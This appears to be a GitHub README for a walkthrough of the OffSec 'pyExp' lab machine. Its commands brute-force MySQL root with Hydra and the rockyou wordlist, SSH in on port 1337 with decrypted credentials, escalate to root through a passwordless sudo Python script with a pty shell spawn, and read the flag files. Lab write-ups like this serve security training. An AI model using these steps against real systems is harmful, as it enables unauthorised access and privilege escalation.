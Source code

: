 # Offsec-pyExp

```
Usage : python3 resolv-pyExp.py -i 192.168.182.118 -p 3306 -w /usr/share/wordlists/rockyou.txt
```

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```
![offsec-pyExp](https://github.com/Isid0r3/Offsec-pyExp/assets/120736091/bcdb484c-c3d6-4a53-8827-6033e084aa6d)

Credits : Isid0r3 & Jedidia
